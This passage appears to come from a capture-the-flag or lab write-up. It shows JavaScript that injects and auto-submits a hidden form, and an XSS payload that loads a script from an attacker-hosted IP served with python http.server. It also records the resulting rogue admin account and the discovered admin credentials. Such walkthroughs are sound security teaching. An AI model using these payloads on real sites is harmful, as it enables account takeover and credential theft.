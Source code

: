 ```javascript
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'
var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

### XSS Injection

**Payload**: `"><script src="http://192.168.40.42/file.js"></script>`

**Hosting**: `python -m http.server 80`

![Script Execution](images/Pasted%20image%2020251011232727.png)

**Result**: Admin executed the malicious script, creating account `hacker:12345678`

### Admin Access

![Admin Login](images/Pasted%20image%2020251011232843.png)

**Credentials Discovered**: `achilles:h2sBr9gryBunKdF9`
